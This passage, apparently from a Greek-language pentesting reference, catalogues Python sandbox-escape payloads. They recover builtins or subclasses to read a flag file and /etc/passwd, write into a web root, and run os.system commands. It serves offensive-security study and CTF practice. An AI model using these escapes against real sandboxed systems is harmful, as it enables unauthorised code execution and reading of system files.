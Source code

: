 ### Διαβάστε το αρχείο με βοήθεια και άδεια από τα builtins
```python
__builtins__.__dict__["license"]._Printer__filenames=["flag"]
a = __builtins__.help
a.__class__.__enter__ = __builtins__.__dict__["license"]
a.__class__.__exit__ = lambda self, *args: None
with (a as b):
pass
```
## Builtins

* [**Builtins functions of python2**](https://docs.python.org/2/library/functions.html)
* [**Builtins functions of python3**](https://docs.python.org/3/library/functions.html)

Αν μπορείτε να έχετε πρόσβαση στο **`__builtins__`** αντικείμενο μπορείτε να εισάγετε βιβλιοθήκες (σημειώστε ότι μπορείτε επίσης να χρησιμοποιήσετε εδώ άλλη αναπαράσταση συμβολοσειράς που εμφανίζεται στην τελευταία ενότητα):
```python
__builtins__.__import__("os").system("ls")
__builtins__.__dict__['__import__']("os").system("ls")
```
### No Builtins

Όταν δεν έχετε `__builtins__`, δεν θα μπορείτε να εισάγετε τίποτα ούτε καν να διαβάσετε ή να γράψετε αρχεία καθώς **όλες οι παγκόσμιες συναρτήσεις** (όπως `open`, `import`, `print`...) **δεν είναι φορτωμένες**.\
Ωστόσο, **κατά προεπιλογή, η python εισάγει πολλά modules στη μνήμη**. Αυτά τα modules μπορεί να φαίνονται αθώα, αλλά μερικά από αυτά **εισάγουν επίσης επικίνδυνες** λειτουργίες μέσα τους που μπορούν να προσπελαστούν για να αποκτήσετε ακόμη και **τυχαία εκτέλεση κώδικα**.

Στα παρακάτω παραδείγματα μπορείτε να παρατηρήσετε πώς να **καταχραστείτε** μερικά από αυτά τα "**αθώα**" modules που έχουν φορτωθεί για να **προσεγγίσετε** **επικίνδυνες** **λειτουργίες** μέσα τους.

**Python2**
```python
#Try to reload __builtins__
reload(__builtins__)
import __builtin__

# Read recovering <type 'file'> in offset 40
().__class__.__bases__[0].__subclasses__()[40]('/etc/passwd').read()
# Write recovering <type 'file'> in offset 40
().__class__.__bases__[0].__subclasses__()[40]('/var/www/html/input', 'w').write('123')

# Execute recovering __import__ (class 59s is <class 'warnings.catch_warnings'>)
().__class__.__bases__[0].__subclasses__()[59]()._module.__builtins__['__import__']('os').system('ls')
# Execute (another method)
().__class__.__bases__[0].__subclasses__()[59].__init__.__getattribute__("func_globals")['linecache'].__dict__['os'].__dict__['system']('ls')
# Execute recovering eval symbol (class 59 is <class 'warnings.catch_warnings'>)
().__class__.__bases__[0].__subclasses__()[59].__init__.func_globals.values()[13]["eval"]("__import__('os').system('ls')")

# Or you could obtain the builtins from a defined function
get_flag.__globals__['__builtins__']['__import__']("os").system("ls")
```
#### Python3
```python
# Obtain builtins from a globally defined function
# https://docs.python.org/3/library/functions.html
help.__call__.__builtins__ # or __globals__
license.__call__.__builtins__ # or __globals__
credits.__call__.__builtins__ # or __globals__
```